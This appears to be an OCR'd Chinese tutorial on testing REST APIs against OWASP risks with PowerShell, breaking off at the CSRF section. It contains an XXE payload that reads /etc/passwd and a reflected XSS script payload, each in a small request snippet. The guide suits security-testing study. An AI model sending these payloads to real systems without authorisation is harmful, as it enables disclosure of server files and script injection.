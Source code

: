 ## OWASP 分析 – XML 外部实体（XXE）

**目标**：测试 RESTful API 中与 XML 相关的漏洞，如 XXE。

**方法**：可以使用 PowerShell 发送恶意的 XML 负载到 API 并分析响应。以下是我们针对 XXE 的测试示例：

```
 $uri = "http s:// api.snowcap cyber. com/resource"
$xmlPayload = '<?xml version="1.0" encoding="UTF-8" ?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "fil e:/// etc/passwd"> ]><foo>&xxe;</foo>'
$headers = @{
    "Content-Type" = "application/xml" }
$response = Invoke-RestMethod -Uri $uri -Method POST -Headers $headers -Body $xmlPayload
```

## OWASP 分析 – 破坏性访问控制

**目标**：测试 API 是否实施了适当的访问控制。

**方法**：使用 PowerShell 发送具有不同授权级别的请求，并分析是否未授权用户能够访问受限资源。例如，可以测试不足的访问控制：

```
 $uri = "http s:// api.snowcap cyber.com/restri cted-resource"
$headers = @{
    "Authorization" = "Bearer <accessToken>" }
$response = Invoke-RestMethod -Uri $uri -Method GET -Headers $headers
```

## OWASP 分析 – 安全配置错误

**目标**：识别 API 中的安全配置错误。

**方法**：可以使用 PowerShell 发送请求并分析响应，查找配置错误的迹象，如暴露的调试信息或默认凭证：

```
 $uri = "http s:// api.snowcap cyber.com/debug-info"
$response = Invoke-RestMethod -Uri $uri -Method GET
```

## OWASP 分析 – 跨站脚本攻击（XSS）

**目标**：测试 REST API 响应中的 XSS 漏洞。

**方法**：使用 PowerShell 构造恶意负载并将其发送到请求中。分析响应，检测任何反射型或存储型 XSS 漏洞。例如，可以测试反射型 XSS：

```
 $uri = "http s:// api.examp le.com/search"
$searchQuery = '<script>alert("XSS");</script>'
$response = Invoke-RestMethod -Uri "$uri?q=$searchQuery" -Method GET
```

## OWASP 分析 – 跨站请求伪造（CSRF）

**目标**：评估 API 中的 CSRF 漏洞。
